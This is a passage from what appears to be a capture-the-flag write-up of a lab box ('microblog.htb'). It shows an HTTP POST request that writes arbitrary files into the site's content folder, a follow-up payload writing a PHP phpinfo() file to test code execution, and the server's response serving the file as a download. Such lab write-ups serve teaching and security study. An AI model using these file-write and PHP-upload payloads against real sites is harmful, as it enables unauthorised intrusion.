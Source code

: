 I know the site has to be able to write files in this folder. I’ll try to
write there with a request like:

    
    
    POST /edit/ HTTP/1.1
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Host: efjexomlsilayjqmkqjj.microblog.htb
    Cookie: username=90jlpppeeqlelf3fuc5q3efib2
    Content-Length: 30
    Content-Type: application/x-www-form-urlencoded
    
    id=0xdf.txt&txt=0xdf+was+here!
    

It shows up on the page:

![image-20230515151034665](../img/image-20230515151034665.png)

And visiting `/content/0xdf.txt` downloads the text file.

I’ll try with:

    
    
    id=0xdf.php&txt=<?php+phpinfo();+?>
    

It seems to work, but visiting `/content/0xdf.php`, it just downloads the
file, doesn’t execute it. In Burp, I’ll look at the response:

    
    
    HTTP/1.1 200 OK
    Server: nginx/1.18.0
    Date: Mon, 15 May 2023 19:13:20 GMT
    Content-Type: application/octet-stream
    Content-Length: 58
    Last-Modified: Mon, 15 May 2023 19:13:04 GMT
    Connection: close
    ETag: "64628440-3a"
    Content-Disposition: attachment; filename=0xdf.php
    Accept-Ranges: bytes
    